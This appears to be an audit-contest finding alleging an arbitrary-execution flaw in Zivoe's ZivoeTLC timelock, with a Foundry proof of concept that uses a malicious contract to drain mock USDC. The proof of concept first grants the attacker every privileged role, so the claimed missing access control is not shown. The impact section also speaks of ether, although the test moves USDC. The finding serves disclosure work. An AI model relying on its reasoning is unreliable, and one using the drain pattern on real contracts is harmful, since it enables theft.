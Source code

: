 Bouncy Ultraviolet Cod

high

# [H-1] Arbitrary Execution Vulnerability in ZivoeTLC Contract Allows Attacks to Steal Funds

## Summary
The ZivoeTLC contract contains an arbitrary execution vulnerability that allows an attacker with the necessary roles (e.g., PROPOSER_ROLE and EXECUTOR_ROLE) to propose and execute arbitrary actions, including sending funds to any contract. The vulnerability stems from the lack of proper access controls and validation of proposed actions in the contract.

## Vulnerability Detail

The line with the vulnerability can be found here: 

https://github.com/sherlock-audit/2024-03-zivoe/blob/main/zivoe-core-foundry/src/libraries/ZivoeTLC.sol?plain=1#L383

It is in the function `_execute` between lines #378 - 385

## Code Snippet

The Proof of Code below demonstrates the exploitation of the arbitrary execution vulnerability in the ZivoeTLC contract:

Inside of zivoe-core-foundry, create a new Test folder, inside of the test folder create a mocks folder and inside of the mocks folder create a MockERC20.sol file.

Paste this code into the MockERC20.sol file:
```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "../../lib/openzeppelin-contracts/contracts/token/ERC20/ERC20.sol";

contract MockERC20 is ERC20 {
    constructor(string memory name, string memory symbol) ERC20(name, symbol) {}

    function mint(address account, uint256 amount) public {
        _mint(account, amount);
    }
}
```

Create a new ZivoeTLC.t.sol file in the test folder and add the following code.

```javascript 
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import {Test} from "forge-std/Test.sol";
import "../src/libraries/ZivoeTLC.sol";
import "../test/mocks/MockERC20.sol";

contract ZivoeTLCTest is Test {
    ZivoeTLC public zivoeTLC;
    address attacker = address(0x1337);

    function setUp() public {
        // Deploy the ZivoeTLC contract
        zivoeTLC = new ZivoeTLC(1 days, new address[](0), new address[](0), address(this));

        // Grant the attacker the TIMELOCK_ADMIN_ROLE
        zivoeTLC.grantRole(zivoeTLC.TIMELOCK_ADMIN_ROLE(), attacker);

        // Grant the attacker the PROPOSER_ROLE and EXECUTOR_ROLE
        zivoeTLC.grantRole(zivoeTLC.PROPOSER_ROLE(), attacker);
        zivoeTLC.grantRole(zivoeTLC.EXECUTOR_ROLE(), attacker);
    }

    function testArbitraryExecute() public {
        // Deploy the mock USDC contract
        MockERC20 mockUSDC = new MockERC20("Mock USDC", "USDC");

        // Mint USDC to the ZivoeTLC contract
        mockUSDC.mint(address(zivoeTLC), 10000000000);

        // Deploy the malicious contract
        MaliciousContract maliciousContract = new MaliciousContract(attacker, mockUSDC);

        // Mock the GBL contract
        MockGBL mockGBL = new MockGBL();
        vm.etch(zivoeTLC.GBL(), address(mockGBL).code);

        vm.startPrank(attacker);

        // Attacker proposes a malicious proposal to approve the malicious contract to spend USDC
        bytes memory approvePayload =
            abi.encodeWithSignature("approve(address,uint256)", address(maliciousContract), 10000000000);
        zivoeTLC.schedule(address(mockUSDC), 0, approvePayload, bytes32(0), bytes32(0), zivoeTLC.getMinDelay());

        // Advance time to make the approval proposal executable
        vm.warp(block.timestamp + zivoeTLC.getMinDelay());

        // Attacker executes the approval proposal
        zivoeTLC.execute(address(mockUSDC), 0, approvePayload, bytes32(0), bytes32(0));

        // Attacker proposes a malicious proposal to send USDC to the malicious contract
        bytes memory transferPayload = abi.encodeWithSignature("receiveUSDC(uint256)", 10000000000);
        zivoeTLC.schedule(
            address(maliciousContract), 0, transferPayload, bytes32(0), bytes32(0), zivoeTLC.getMinDelay()
        );

        // Advance time to make the transfer proposal executable
        vm.warp(block.timestamp + zivoeTLC.getMinDelay());

        // Attacker executes the transfer proposal
        zivoeTLC.execute(address(maliciousContract), 0, transferPayload, bytes32(0), bytes32(0));

        // Attacker calls the withdraw function to transfer the USDC
        maliciousContract.withdrawUSDC();

        vm.stopPrank();

        // Assert that the attacker received the USDC
        assertEq(mockUSDC.balanceOf(attacker), 10000000000);
    }
}

contract MaliciousContract {
    address public attacker;
    ERC20 public usdc;

    constructor(address _attacker, ERC20 _usdc) {
        attacker = _attacker;
        usdc = _usdc;
    }

    function withdrawUSDC() public {
        usdc.transfer(attacker, usdc.balanceOf(address(this)));
    }

    function receiveUSDC(uint256 amount) external {
        usdc.transferFrom(msg.sender, address(this), amount);
    }
}

contract MockGBL {
    function isKeeper(address account) external view returns (bool) {
        return account == 0x0000000000000000000000000000000000001337;
    }
}

```
To run this test, run `$ forge test --mt testArbitraryExecute ` and you will see the the test passes, and the attacker stole all the USDC.

Exploit walkthrough:
Setup:
The test deploys the ZivoeTLC contract and grants the attacker the necessary roles.
It deploys a mock USDC contract and mints USDC tokens to the ZivoeTLC contract.
It deploys a malicious contract (MaliciousContract) controlled by the attacker.


Exploitation:
The attacker proposes a malicious proposal to approve the MaliciousContract to spend USDC tokens on behalf of the ZivoeTLC contract.
The approval proposal is executed after advancing the time to make it executable.
The attacker proposes another malicious proposal to send USDC tokens from the ZivoeTLC contract to the MaliciousContract.
The transfer proposal is executed after advancing the time to make it executable.
The attacker calls the withdrawUSDC function of the MaliciousContract to transfer the USDC tokens to their own address.


Outcome:
The attacker successfully drains all USDC tokens from the ZivoeTLC contract to their own address.
The test asserts that the attacker's balance of USDC tokens is equal to the amount stolen.

## Impact
An attacker with the necessary roles can exploit this vulnerability to drain ether from the ZivoeTLC contract by proposing and executing malicious actions. The attacker can deploy a malicious contract that can receive ether without reverting and then withdraw the funds to their own address. This can result in significant financial loss for the contract and its users.


## Tool used
Foundry
Manual Review

## Recommendation
To mitigate this vulnerability, the following measures should be implemented in the ZivoeTLC contract:

1. Implement strict access controls to ensure that only authorized entities can propose and execute actions.
2. Validate the proposed actions to ensure they are safe and align with the intended behavior of the contract.
3. Restrict the allowed target contracts and functions that can be called through the _execute() function.
4. Set appropriate limits on the ether amounts that can be proposed and executed to prevent excessive fund transfers.
5. Ensure that an arbitrary user cannot withdraw unauthorized funds.